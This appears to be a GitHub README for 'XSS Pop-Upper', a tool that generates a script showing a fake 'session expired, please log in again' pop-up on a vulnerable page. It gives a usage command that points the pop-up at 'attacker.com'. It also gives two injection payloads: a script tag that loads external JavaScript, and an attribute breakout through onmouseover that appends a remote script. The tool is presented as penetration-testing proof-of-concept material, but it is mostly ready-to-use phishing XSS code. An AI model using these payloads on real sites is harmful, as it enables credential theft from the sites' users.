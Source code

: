 # XSS Pop-Upper
This Javascript file creates a pop-up for your XSS PoC.

# Usage
`python xss-popupper.py --url "http://attacker.com" --title "Log-in for session" --body "Your session has expired. Please log-in again" --time 5000`

# Inject
- For HTML Element: <br/>`<script src=http://export.js></script>`
- For Element Attribute: <br/>`"onmouseover="x=document.createElement('script');x.src='export.js';document.getElementsByTagName('head')[0].appendChild(x)`

<img src=http://g.recordit.co/SicxeWVXzZ.gif />
